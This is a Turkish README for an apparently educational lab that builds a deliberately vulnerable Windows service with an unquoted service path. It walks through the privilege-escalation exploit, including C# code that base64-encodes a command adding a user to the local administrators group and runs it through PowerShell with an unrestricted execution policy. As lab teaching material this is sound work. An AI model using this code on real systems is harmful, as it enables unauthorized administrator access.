 ## Giriş
Bunun sadece bir eğitim aacıyla hazırlandığını ve gerçekten uzak bir senaryo olduğunu unutmayın.

## Kurulum

Projeyi bu hali ile derlersen /bin klasörü altında sana bir exe oluşacaktır. Bu bir servis projesi ve bunu windows'a eklemen gerekecektir. Ekleme işlemini aşağıdaki kod ile terminal üzerinden yapabilirsin.
```ps1
New-Service -Name "YourServiceName" -BinaryPathName <exenin tam yolu>.exe
```
Eğer servisi silip tekrardan eklemek istersen:
```ps1
$service = Get-WmiObject -Class Win32_Service -Filter "Name='Personel Takip'"
$service.Delete()
```

Bu esnada servis aslında düzgün bir şekilde çalışmaya başlayacaktır. Bu serivisi lab ortamına hazır hale getirmek istiyorsan aşağıdaki kodu çalıştır. Bu sayede unquoted path oluşturmuş olacaksın.

```ps1
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\zafiyetliServis4Kuday\" -Name ImagePath -Value "C:\Users\Ogrenci\Desktop\Zafiyetli Servis\Zafiyetli Servis\bin\Release\Zafiyetli Servis.exe"

```
Yukarıdaki binary path'i değiştirmeyi unutma ve unquoted path'e uygun bir path ver.

Evet kurulum tamam!

## Hackleme
Lab ortamında unquoted path'i tespit ettikten sonra bunu exploit etmek isteyebilirsin. Bu işlemi manuel bir şekilde nasıl yaptığımızı sana göstereyim.
```c#
 protected override void OnStart(string[] args)
        {
            using (System.IO.StreamWriter file =
            new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            {

                file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı!");
            }
            //Base64EncodedCommand();
        }

```

Servis başladığında yukarıda görmüş olduğun gibi C:\PersonelTakip.txt isimli dosyaya yazı yazmakta. Bunun haricinde yorum satırına alınmış bir kod var.`Base64EncodedCommand()` metodunun içine bir gidelim.
```c#
void Base64EncodedCommand()
        {
            var psCommmand = @"net localgroup administrators bkg\yetkisizuser /add";
            var psCommandBytes = System.Text.Encoding.Unicode.GetBytes(psCommmand);
            var psCommandBase64 = Convert.ToBase64String(psCommandBytes);

            var startInfo = new ProcessStartInfo()
            {
                FileName = "powershell.exe",
                Arguments = $"-NoProfile -ExecutionPolicy unrestricted -EncodedCommand {psCommandBase64}",
                UseShellExecute = false
            };
            Process.Start(startInfo);

            using (System.IO.StreamWriter file =
          new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            {

                file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı (Hack)!");
            }

        }
```



Evet burda bir batch kodu çalıştırıldığını görüyoruz. `net localgroup administrators bkg\yetkisizuser /add`. Unquoted service path sistemde tespit edildikten sonra `OnStart` metodunu aşağıdaki gibi güncellemek isteyebilirsiniz.
```c#
        protected override void OnStart(string[] args)
        {
            //using (System.IO.StreamWriter file =
            //new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            //{

            //    file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı!");
            //}
            Base64EncodedCommand();
        }
```

Artık servis başladığında batch kodumuz çalışacak. Bu projeyi derleyip exe'yi binary path içerisinde unquoted service path'e uygun bir isimle eklerseniz. Servis yeniden başladığında local adminsiniz!

## Not
Ayrıca internet sayfamda bu konuları daha iyi anlattığımı düşünüyorum. Aşağıdaki linklerede bakmanızı tavsiye ederim.
https://berenkudaygorun.com/blog/index.php/unquoted-service-path/
https://berenkudaygorun.com/blog/index.php/unquoted-service-path-ve-bir-proje/
